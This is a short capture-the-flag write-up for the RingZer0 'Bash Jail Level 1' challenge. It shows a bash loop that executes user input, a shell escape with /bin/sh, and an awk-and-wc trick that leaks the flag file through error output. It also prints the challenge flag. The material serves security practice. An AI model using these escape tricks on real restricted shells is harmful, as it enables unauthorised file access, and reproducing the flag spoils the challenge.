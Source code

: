 # Bash jail 1 - Challenge 218

```
RingZer0 Team Online CTF

BASH Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge bash code:
-----------------------------

while :
do
        echo "Your input:"
        read input
        output=`$input`
done

-----------------------------
Your input:
```

We can get a shell with:

```
/bin/sh
sh-4.3$
```

stdout is redirected so we can't just cat the flag:

```
sh-4.3$ cat /home/level1/flag.txt
sh-4.3$
```

Instead we'll try to get it with stderr

```
sh-4.3$ awk '{system("wc "$1)}' /home/level1/flag.txt
wc: FLAG-U96l4k6m72a051GgE5EN0rA85499172K: No such file or directory
```
